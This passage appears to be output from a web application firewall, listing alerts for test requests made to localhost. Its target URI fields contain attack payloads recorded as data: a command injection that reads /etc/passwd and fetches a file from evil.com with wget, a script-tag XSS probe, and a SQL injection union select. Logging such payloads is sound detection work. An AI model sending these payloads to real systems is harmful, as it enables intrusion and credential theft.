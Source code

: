 ```bash
│ remediation_cmpt_ip │ 127.0.0.1                                                    │
│ request_uuid        │ 69c72a65-e7e5-49fa-9253-bdbe6fca52c9                         │
│ rule_ids            │ [901340 930120 932230 932235 932115 932160 942540 949110     │
│                     │ 980170]                                                      │
│ rule_name           │ native_rule:901340                                           │
│ service             │ appsec                                                       │
│ source_ip           │ xxx                                                          │
│ target_host         │ localhost                                                    │
│ target_uri          │ /?x=A";cat+/etc/passwd;wget+http://evil.com/payload          │
╰─────────────────────┴──────────────────────────────────────────────────────────────╯

- Date: 2025-08-22 09:39:50.352001523 +0000 UTC
╭─────────────────────┬───────────────────────────────────────────────────────────╮
│         Key         │                           Value                           │
├─────────────────────┼───────────────────────────────────────────────────────────┤
│ datasource_path     │ appsec                                                    │
│ datasource_type     │ appsec                                                    │
│ log_type            │ appsec-info                                               │
│ remediation_cmpt_ip │ 127.0.0.1                                                 │
│ request_uuid        │ b7a95a56-a88e-4c89-b23b-2d3d06759af4                      │
│ rule_ids            │ [901340 941100 941110 941160 941390 942100 949110 980170] │
│ rule_name           │ native_rule:901340                                        │
│ service             │ appsec                                                    │
│ source_ip           │ xxx                                                       │
│ target_host         │ localhost                                                 │
│ target_uri          │ /?x=A"<script>alert(1)</script>                           │
╰─────────────────────┴───────────────────────────────────────────────────────────╯

- Date: 2025-08-22 09:39:50.365872595 +0000 UTC
╭─────────────────────┬───────────────────────────────────────────────────────────╮
│         Key         │                           Value                           │
├─────────────────────┼───────────────────────────────────────────────────────────┤
│ datasource_path     │ appsec                                                    │
│ datasource_type     │ appsec                                                    │
│ log_type            │ appsec-info                                               │
│ remediation_cmpt_ip │ 127.0.0.1                                                 │
│ request_uuid        │ fbc41250-53e6-49d9-ab04-5f6ed2cc1793                      │
│ rule_ids            │ [901340 941100 941110 941160 941390 942100 949110 980170] │
│ rule_name           │ native_rule:901340                                        │
│ service             │ appsec                                                    │
│ source_ip           │ xxx                                                       │
│ target_host         │ localhost                                                 │
│ target_uri          │ /?x=A"<script>alert(1)</script>                           │
╰─────────────────────┴───────────────────────────────────────────────────────────╯

- Date: 2025-08-22 09:39:50.378905387 +0000 UTC
╭─────────────────────┬───────────────────────────────────────────────╮
│         Key         │                     Value                     │
├─────────────────────┼───────────────────────────────────────────────┤
│ datasource_path     │ appsec                                        │
│ datasource_type     │ appsec                                        │
│ log_type            │ appsec-info                                   │
│ remediation_cmpt_ip │ 127.0.0.1                                     │
│ request_uuid        │ d59825ff-268b-42ff-8e90-9e831a7f6a6b          │
│ rule_ids            │ [901340 942100 942190 949110 980170]          │
│ rule_name           │ native_rule:901340                            │
│ service             │ appsec                                        │
│ source_ip           │ xxx                                           │
│ target_host         │ localhost                                     │
│ target_uri          │ /?x=A"+OR+"1"="1"+union+select+"fooobar","foo │
╰─────────────────────┴───────────────────────────────────────────────╯

- Date: 2025-08-22 09:39:50.392514386 +0000 UTC
```